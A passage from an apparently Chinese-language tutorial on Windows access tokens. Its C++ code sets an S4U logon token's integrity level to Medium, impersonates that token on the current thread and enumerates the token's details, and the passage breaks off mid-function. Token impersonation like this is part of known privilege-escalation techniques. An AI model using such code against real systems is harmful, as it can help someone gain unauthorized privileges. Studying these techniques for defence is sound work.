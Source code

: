 登录完成后，通过 `SetTokenInformation()` 函数将得到的模拟令牌 `hTokenS4U` 的完整性级别设置为 Medium，如下所示。

```c++
WCHAR mediumInt[] = L"S-1-16-8192";
PSID mediumSID = NULL;
ConvertStringSidToSidW(mediumInt, &mediumSID);

// ...

wprintf(L"[*] Set the token integrity level to medium.\n");

TIL.Label.Attributes = SE_GROUP_INTEGRITY;
TIL.Label.Sid = mediumSID;

if (!SetTokenInformation(hTokenS4U, TokenIntegrityLevel, &TIL, sizeof(TOKEN_MANDATORY_LABEL) + GetLengthSid(mediumSID)))
{
  wprintf(L"[-] SetTokenInformation Error: [%u].\n", GetLastError());
}
```

然后调用 `SetThreadToken()` 函数将当前线程的令牌替换为新令牌 `hTokenS4U`，并通过 `DisplayTokenInformation()` 函数输出新令牌的 TokenStatistics、TokenGroups 和 TokenIntegrityLevel 等信息，如下所示。

```c++
hThread = GetCurrentThread();
  
if (!SetThreadToken(&hThread, hTokenS4U))
{
  wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
}
  
wprintf(L"[*] LsaLogonUser successfully and get S4U token: \n\n");

if (!DisplayTokenInformation(hTokenS4U))
{
  wprintf(L"[-] Failed to get S4U token information.\n");
}
```

`DisplayTokenInformation()` 函数主要通过 `GetTokenInformation()` 来枚举令牌的信息，如下所示。

```c++
BOOL DisplayTokenInformation(HANDLE hToken)
{
	BOOL status = FALSE;
	DWORD dwLength = 0;
	PTOKEN_STATISTICS pTokenStatistics = NULL;
	PTOKEN_GROUPS pTokenGroups = NULL;
	PTOKEN_MANDATORY_LABEL pTokenIntegrityLevel = NULL;
	PSID pSid;
	LPWSTR lpGroupSid;
	LPWSTR lpIntegritySid;

	// Get Token Statistics Information
	if (!GetTokenInformation(hToken, TokenStatistics, pTokenStatistics, 0, &dwLength))
	{
		if (GetLastError() != ERROR_INSUFFICIENT_BUFFER)
		{
			wprintf(L"[-] GetTokenInformation Error: [%u].\n", GetLastError());
			goto Clear;
		}

		pTokenStatistics = (PTOKEN_STATISTICS)LocalAlloc(LPTR, dwLength);
		if (!GetTokenInformation(hToken, TokenStatistics, pTokenStatistics, dwLength, &dwLength))
		{
			wprintf(L"[-] GetTokenInformation Error: [%u].\n", GetLastError());
```